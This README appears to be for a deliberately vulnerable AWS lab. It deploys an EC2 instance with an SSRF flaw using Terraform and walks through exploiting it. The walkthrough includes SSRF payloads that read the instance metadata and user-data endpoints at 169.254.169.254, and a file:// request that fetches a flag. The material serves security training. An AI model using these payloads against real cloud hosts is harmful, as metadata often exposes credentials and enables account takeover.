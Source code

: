 # AWS EC2 SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a shooting range used to build the AWS EC2 SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on EC2 through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/elastic_computing_service/ec2_ssrf/
```

Configure AWS Access Credentials

```shell
aws configure
```

![img](../../../images/1651044031.png)

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1650428695.png)

After the environment is set up, You can see the access address of the shooting range at Outputs, then access to the browser.

![img](../../../images/1650429022.png)

## Vulnerability Utilization

On EC2 with SSRF vulnerabilities, we can use SSRF to read EC2 metadata, user data and other information.

read metadata

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1650429215.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://169.254.169.254/latest/user-data
```

![img](../../../images/1650429432.png)

In the user data information, you can see that there is a flag file in the root directory of the shooting range, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1650429930.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
